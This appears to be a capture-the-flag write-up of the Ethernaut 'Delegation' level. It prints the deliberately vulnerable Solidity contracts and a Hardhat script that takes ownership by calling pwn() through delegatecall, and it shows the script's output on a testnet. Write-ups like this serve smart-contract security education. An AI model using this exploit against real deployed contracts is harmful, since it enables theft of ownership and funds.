 ```yaml
---
title: "Ethernaut #06 Delegation"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Delegation challenge writeup
---
```


## Delegation

### Challenge

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
* Fallback methods
* Method ids


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Background

The low level instruction `delegatecall` will execute the code in some other contract under the context of the current contract. This means the the code being called is executed but with the storage, `msg.value`, `msg.sender` etc of the caller contract. This can be used to implement libraries and and proxy contracts used for upgradeability.

### Attack

The attack is simple, we can call the `Delegation` contract address using the ABI of the `Delegate` contract. Is this case, the `fallback` function of the `Delegation` contract will be called and delegate the execution to the `Delegate` contract. Then we simply need to call the `pwn` function which will update the first slot in the caller function to the `msg.sender`, which in this case is the attacker.

* Get instance of `Delegate` contract ABI with `Delegation` contract address
* Call `pwn` function

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    delegationAddress = "0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3";
    contract = await ethers.getContractAt("Delegate", delegationAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())

    // call delegate contract function
    tx = await contract.connect(account).pwn()
    receipt = await tx.wait()

    console.log("Contract Owner  : " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/delegation-solve.js --network rinkeby
Level address   : 0x65fE1306C4fFF667D9f0A75dc4226289Ec1e62e3
Contract Owner  : 0x9451961b7Aea1Df57bc20CC68D72f662241b5493
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.
